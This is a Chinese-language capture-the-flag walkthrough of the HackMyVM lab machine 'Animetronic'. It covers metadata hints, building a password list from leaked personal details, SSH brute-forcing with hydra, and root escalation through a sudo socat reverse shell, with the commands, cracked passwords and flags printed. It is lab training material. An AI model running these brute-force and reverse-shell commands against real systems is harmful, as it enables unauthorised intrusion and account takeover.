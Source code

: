 # Animetronic

2025.03.18 https://hackmyvm.eu/machines/machine.php?vm=Animetronic

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/staffpages/new_employees 是一张 jpeg 图片，exiftool 查看隐写 Comment 中显示 page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=

进行 base64 解码，并将内容反转得到: `message_for_michael` 提示访问这个页面 http://192.168.5.40/staffpages/message_for_michael :

```
Hi Michael

Sorry for this complicated way of sending messages between us.
This is because I assigned a powerful hacker to try to hack
our server.

By the way, try changing your password because it is easy
to discover, as it is a mixture of your personal information
contained in this file

personal_info.txt
```

访问这个文件 http://192.168.5.40/staffpages/personal_info.txt :

```
name: Michael

age: 27

birth date: 19/10/1996

number of children: 3 " Ahmed - Yasser - Adam "

Hobbies: swimming
```

说是 Michael 的密码是包含个人信息的混合，需要根据上面的信息组合生成密码。这里使用 cupp 根据上述个人信息生成字典，最后使用 hydra 爆破 michael 用户的密码：

```
[22][ssh] host: 192.168.5.40   login: michael   password: leahcim1996
```

在另外一个用户下，先拿到了 user flag:

```
michael@animetronic:/home/henry$ cat user.txt
0833990328464efff1de6cd93067cfb7
```

同时发现提示:

```
michael@animetronic:/home/henry$ cat Note.txt
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

进行 base64 解码得到文件名 henrypassword.txt 进行查找：

```
michael@animetronic:/home/henry$ find / -type f -name 'henrypassword.txt' 2>/dev/null
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt

IHateWilliam
```

切换到 henry 用户, sudo -l 显示 (root) NOPASSWD: /usr/bin/socat ，登陆 2 个 ssh 窗口，直接反弹 shell 到目标机器上:

```
socat file:`tty`,raw,echo=0 tcp-listen:8888

sudo socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:8888
```

拿到最终 root flag:

```
root@animetronic:/home/henry# id
uid=0(root) gid=0(root) groups=0(root)
root@animetronic:/home/henry# cd /root
root@animetronic:~# cat root.txt
153a1b940365f46ebed28d74f142530f280a2c0a
```
